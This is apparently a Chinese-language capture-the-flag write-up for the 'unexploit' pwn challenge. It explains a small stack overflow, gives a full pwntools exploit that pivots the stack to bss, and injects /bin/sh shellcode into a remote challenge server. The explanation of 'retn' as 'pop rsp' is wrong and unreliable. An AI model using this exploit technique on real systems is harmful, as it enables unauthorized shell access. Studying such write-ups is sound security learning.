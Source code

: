 ```yaml
---
layout: post
title: 安恒杯-unexploit
category: pwn
tags: [pwn]
---
```


## Checksec unexploit

![img](/assets/images/2019-08-05-unexploit/unexploit2.png)

没开保护，NX没开，第一时间想到的就是写shellcode进去。

## ida分析

![img](/assets/images/2019-08-05-unexploit/unexploit1.png)

有一个栈溢出漏洞，但是只有**0x20**的空间。因此，可以用**栈迁移**。

## 一些汇编指令
```
leave:
    mov rsp,rbp   #将rsp指向rbp
    pop rbp   #将栈中保存的父栈帧的 %rbp 的值赋值给 %rbp，并且 %rsp 上移一个位置指向父栈帧的结尾处。
retn:
    pop rsp   #将当前的ESP中指向的地址出栈，JMP到这个地址。
```
**所以我们可通过覆写rbp来使栈迁移到bss段去，并利用read函数去写入shellcode，再去执行shellcode。**

## 先给出Exp
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = remote('101.71.29.5',10015)
#p = process('./unexploit')

elf = ELF('unexploit')
read_addr = 0x40068A
bss_addr = elf.bss()

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

payload1 = 'a'*8+p64(bss_addr-8)+p64(read_addr)+p64(0xdeadbeef)
payload2 = 'a'*8+p64(bss_addr+8)+p64(read_addr)+p64(0xdeadbeef)   #加上0xdeadbeef是为了填满0x20
payload3 = p64(bss_addr+8)+shellcode

p.send(payload1)
p.send(payload2)
p.send(payload3)
p.interactive()
```
### payload1
    mov rsp,rbp:
                        +-------------+
                        |  aaaaaaaa   |
                        +-------------+  
            rsp、rbp +->+  bss-0x8    |
                        +-------------+
                        |  read_addr  |
                        +-------------+
                        |  0xdeadbeef |
                        +-------------+

    pop rbp:
            +-------------+          +-------------+
            |  aaaaaaaa   |          |             |
            +-------------+          +-------------+
            |  bss-0x8    |    rbp+->+  bss-0x8    |
            +-------------+          +-------------+
      rsp+->+  read_addr  |          |  bss_start  |
            +-------------+          +-------------+
            |  0xdeadbeef |          |             |
            +-------------+          +-------------+

    pop rsp: 返回到read函数。

### payload2   
    mov rsp,rbp
    pop rbp:
                    +-------------+
                    |  aaaaaaaa   |
                    +-------------+
                    |  bss+0x8    |
                    +-------------+
              rsp+->+  read_addr  |<-+bss-start
                    +-------------+
              rbp+->+  0xdeadbeef |
                    +-------------+

    pop rsp:返回到read函数。

### payload3
    mov rsp,pbp
    pop rbp:
            +-------------+
            |  aaaaaaaa   |
            +-------------+
            |  bss+0x8    |
            +-------------+
            |  bss+0x8    |<-+bss-start
            +-------------+
      rsp+->+  shellcode  |
            +-------------+

    pop rsp:执行shellcode



